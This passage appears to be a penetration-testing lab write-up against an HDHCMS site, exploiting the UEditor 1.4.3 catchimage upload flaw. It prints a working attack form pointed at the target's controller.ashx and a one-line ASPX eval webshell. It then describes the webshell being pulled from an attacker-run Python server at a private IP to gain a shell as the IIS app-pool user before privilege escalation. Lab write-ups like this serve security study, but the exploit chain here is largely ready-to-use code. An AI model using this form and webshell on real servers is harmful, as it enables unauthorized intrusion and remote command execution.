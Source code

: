 Trying to explode the password of the `admin` user failed. Register an ordinary user to view the background. There is `Ueditor 1.4.3`, and there is a vulnerability in this version.

Download the source code of `HDHCMS` and find that there is `Ueditor` related content in `Admin/net/controller.ashx`. Just hit the `Ueditor` editor upload vulnerability.

```html
# attack.html
<form action="http://www.ackmoon.com/Admin/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 <p>shell addr: <input type="text" name="source[]" /></p>
 <input type="submit" value="Submit" />
</form>
```

```c#
<%@ Page Language="Jscript"%><%eval(Request.Item["h3"],"unsafe");%>
```

The attack machine launches a `Python` service, uploads malicious image horse `Webshell`, `http://192.168.31.206:8888/shell.png?.aspx`. After the upload is successful, the address of `Webshell` will be returned.

![](./images/4.png)

`Server-Web1` is the current user of `iis apppool\ackmoon`, and you need to raise the authority to high permissions. There are two network cards `192.168.22.128` and `192.168.31.186`.

![](./images/5.png)
